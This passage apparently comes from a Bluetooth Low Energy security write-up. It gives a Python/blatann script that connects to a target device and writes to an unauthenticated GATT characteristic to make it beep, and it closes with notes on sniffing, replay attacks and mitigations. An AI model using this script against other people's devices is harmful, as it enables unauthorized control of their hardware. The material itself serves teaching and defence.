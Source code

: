 - Automate on Windows with a Nordic dongle using Python + blatann:

```python
import time
import blatann

# CONFIG
COM_PORT = "COM29"  # Replace with your COM port
TARGET_MAC = "5B:B1:7F:47:A7:00"  # Replace with your target MAC

target_address = blatann.peer.PeerAddress.from_string(TARGET_MAC + ",p")

# CONNECT
ble_device = blatann.BleDevice(COM_PORT)
ble_device.configure()
ble_device.open()
print(f"[-] Connecting to {TARGET_MAC}...")
peer = ble_device.connect(target_address).wait()
if not peer:
    print("[!] Connection failed.")
    ble_device.close()
    raise SystemExit(1)

print("Connected. Discovering services...")
peer.discover_services().wait(5, exception_on_timeout=False)

# Example: write 0x01/0x00 to a known handle
for service in peer.database.services:
    for ch in service.characteristics:
        if ch.handle == 0x000b:  # Replace with your handle
            print("[!] Beeping.")
            ch.write(b"\x01")
            time.sleep(2)
            print("[+] And relax.")
            ch.write(b"\x00")

print("[-] Disconnecting...")
peer.disconnect()
peer.wait_for_disconnect()
ble_device.close()
```

### Operational notes and mitigations

- Prefer Sonoff+Sniffle on Linux for robust channel hopping and connection following. Keep a spare Nordic sniffer as a backup.
- Without pairing/bonding, any nearby attacker can observe writes and replay/craft their own to unauthenticated writable characteristics.
- Mitigations: require pairing/bonding and enforce encryption; set characteristic permissions to require authenticated writes; minimize unauthenticated writable characteristics; validate GATT ACLs with Sniffle/nRF Connect.

## References

